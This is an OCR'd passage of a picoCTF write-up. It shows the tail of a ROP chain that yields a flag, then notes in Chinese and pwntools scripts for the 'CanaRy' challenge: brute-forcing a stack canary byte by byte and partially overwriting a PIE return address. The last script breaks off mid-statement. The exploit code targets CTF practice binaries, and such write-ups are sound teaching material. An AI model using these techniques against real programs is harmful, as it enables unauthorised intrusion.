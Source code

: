 ```
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x8
r.sendline(p)
r.interactive()

```
picoCTF{rOp_t0_b1n_sH_44c05daa}
## CanaRy - Points: 300 - (Solves: 438)Binary Exploitation
### review

卡在pie的部份 知道後1.5btye 不會變

當初怎沒想到蓋1.5byte 上去

用r2 找addr
```
>>> a=bin(0x7ed)[2:]
>>> len(a)
11
```
11 byte 可以
### code
```
from pwn import *
key = ''
for i in range(4):
  for c in range(256):
    sh=process('./vuln')
    c = chr(c)
    sh.sendlineafter('> ', str(33+i))
    sh.sendlineafter('> ', 'a'*32+key+c)
    data = sh.recvall()
    if 'Stack Smashing Detected' not in data:
      key += c
      print enhex(key)
      break
```
```
from pwn import *
key = unhex('3333784f')
while 1:
        sh=process('./vuln')
        sh.sendlineafter('> ', str(32+4+12+6))
        sh.sendlineafter('> ', 'a'*32+key+'a'*(4+12)+'\xed\x07')
 # sh.interactive()
        data = sh.recvall(timeout=0.5)
        if 'pico' in data:
```